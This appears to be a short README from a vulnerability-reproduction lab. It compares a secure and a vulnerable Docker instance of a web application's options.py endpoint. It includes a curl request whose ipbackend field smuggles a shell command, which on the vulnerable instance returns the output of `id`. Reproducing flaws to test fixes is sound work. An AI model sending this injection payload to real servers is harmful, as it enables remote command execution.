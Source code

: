 # secure instance
```bash
docker compose -f docker-compose-safe.yml up -d 
```
Execute `curl -X POST "https://localhost/app/options.py" --data "alert_consumer=1&ipbackend=\";id+#" --insecure` command and you will receive a http redirect response like `<title>Redirecting...</title>`

# vulnerable instance
```bash
docker compose -f docker-compose.yml up -d 
```
Execute `curl -X POST "https://localhost/app/options.py" --data "alert_consumer=1&ipbackend=\";id+#" --insecure` command and you will receive a similar response like `uid=48(apache) gid=48(apache) groups=48(apache)<br>`